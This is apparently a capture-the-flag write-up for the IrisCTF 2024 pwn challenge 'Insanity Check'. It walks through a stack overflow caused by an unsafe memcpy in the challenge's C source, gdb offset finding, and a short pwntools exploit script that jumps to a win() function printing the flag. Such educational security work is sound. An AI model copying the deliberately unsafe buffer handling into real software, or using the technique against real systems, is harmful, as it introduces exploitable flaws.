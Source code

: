 ```yaml
---
title: Insanity Check
author: capang
date: 2024-01-09 09:30:00 +0800
categories: [Writeups, PWN]
tags: [irisctf 2024]
math: true
mermaid: true
---
```


# Overview

The unsafe `memcpy` usage in the `main()` function causes Buffer Overflow which causes us being able to overwrite the RSP and return to the targeted address `win()` function. However, our input will only causes Buffer Overflow but the predefined `suffix` in the `main()` function will be populated in RSP. Turns out the targeted function `win()` address is the same value as the string `.com`    

## Source file

[Download Source File](/assets/files/insanity-check.tar.gz)

# File Analysis

## Security checking

```bash
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2d6acffbfd9fd36c0a8089feffe3ce53f3eabba, for GNU/Linux 4.4.0, not stripped
```

```python
checksec --file vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x40000000)
```

### Key Points

- possible buffer overflow
- function address not randomized

## Checking the source code

```C 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

### Target function

Found a target function which is `win()`

```
0x000000006d6f632e  win
```

### Vulnerabilities

The user needs to input max 64 Characters
However unsafe memcpy usage in the `main()` function resulting in buffer overflow

```C
strcpy(message, "Hi there, ");
strcpy(message + strlen(message), name);
memcpy(message + strlen(message), suffix, sizeof(suffix));
```

```
len("Hi there, ") = 10
len(input) = 64 max
len(suffix) = 94
total = 160
```

Buffer overflow can occur

## Exploitation

`0x000000006d6f632e  win` is the address of the win() function
`unhex(0x000000006d6f632e) = moc.`
In the suffix there is '.com' which we can overwrite the RSP with it

### Finding the offsets

To find the offsets we need to use debugger, in my case we use gdb-pwndbg

First we need to input max number of char

```python
*RSP  0x7fffffffdce8 ◂— 'example.com' or 0x2e656c706d617865
```

RSP were populated with 'example.com'. To have only .com in the RSP, we need to substract 'example'. Which is 64 - 7 = 57

```python
Invalid address 0x6d6f632e65 -> e.com
```

Opps, we need another more. thus the offsets is 64-8 = 56. We can craft our payload using PWNTOOLS or manually.

```exploit.py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# libc = elf.libc
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()

payload = flat(
    b'A' * 56,
    )


io.sendline(payload)
print(io.recv())
io.interactive()
```

![Flag Picture](/assets/img/writeups/flag-insanity-check.png)

irisctf{c0nv3n13nt_symb0l_pl4cem3nt}


